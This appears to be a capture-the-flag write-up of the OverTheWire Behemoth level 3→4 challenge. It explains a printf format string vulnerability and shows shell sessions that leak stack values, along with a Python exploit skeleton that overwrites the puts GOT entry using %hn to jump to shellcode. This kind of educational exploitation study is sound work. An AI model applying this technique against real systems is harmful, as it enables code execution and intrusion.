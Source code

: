 ## Level3 &rarr; Level4 {#level4}

![level4_binaryninja]({{ site.baseurl }}/img/otw-behemoth/level4_binaryninja.png)

Similar to the last 'password' one, we're asked for some input value, but no
check is performed and the program simply exits after printing our input
string.  Fortunately for us, the program passes our input directly to `printf`,
so it's likely a formatstring vulnerability.

{% highlight bash %}
behemoth3@melinda:/tmp/flatflute$ /behemoth/behemoth3 
Identify yourself: %x.%x.%x.%x
Welcome, c8.f7fcac20.f7ff2e76.2

aaaand goodbye again.
{% endhighlight %}

Looks like by entering special formatting characters, we can print values off
the stack (for more on format string vulnerabilities check out [OWASPs wiki
page](https://www.owasp.org/index.php/Format_string_attack)). This gives us the
ability to write to an arbitrary location, but what should we write? If we look
back at the disassembly, we can see that the program calls `puts` after the
vulnerable `printf` - this is perfect candidate for us to overwrite in the
global offset table (GOT) with the address of some shellcode. Let's start by
overwriting the GOT entry with a dummy value.

{% highlight bash %}
behemoth3@melinda:/tmp/flatflute$ python -c 'print "AAAA"+"%x."*6' | ./behemoth3 
Identify yourself: Welcome, AAAAc8.f7fcac20.0.0.f7ffd000.41414141.

aaaand goodbye again.
{% endhighlight %}

After some trial and error, we know that we can find the beginning of our
format string after 6 reads. Let's check [BinaryNinja] again for the address of
`puts` in the GOT.

![level4_got]({{ site.baseurl }}/img/otw-behemoth/level4_got.png)

Great, so now we can start to write our exploit script. I used the same process
as the last challenge to generate a shellcode environment variable `EGG` and
find its address, so I won't repeat it here. The general outline of the exploit
is as follows.

{% highlight python %}
# exploit.py
import struct

puts_got = 0x8049790

buf = struct.pack('<I', puts_got)
buf += 'AAAA'
buf += struct.pack('<I', puts_got+0x2)
buf += '%x.'*4
buf += '%x'
buf += '%hn'
buf += '%x'
buf += '%hn'

print buf
{% endhighlight %}


[Narnia]: http://overthewire.org/wargames/narnia/
[Behemoth]: http://overthewire.org/wargames/behemoth/
[OverTheWire]: http://overthewire.org
[BinaryNinja]: http://binary.ninja
[IDA]: https://www.hex-rays.com/products/ida/index.shtml
[Hex Rays]: https://www.hex-rays.com/products/decompiler/index.shtml
[pwndbg]: https://github.com/pwndbg/pwndbg
[PEDA]: https://github.com/longld/peda
[Voltron]: https://github.com/snare/voltron
[pwntools]: https://github.com/Gallopsled/pwntools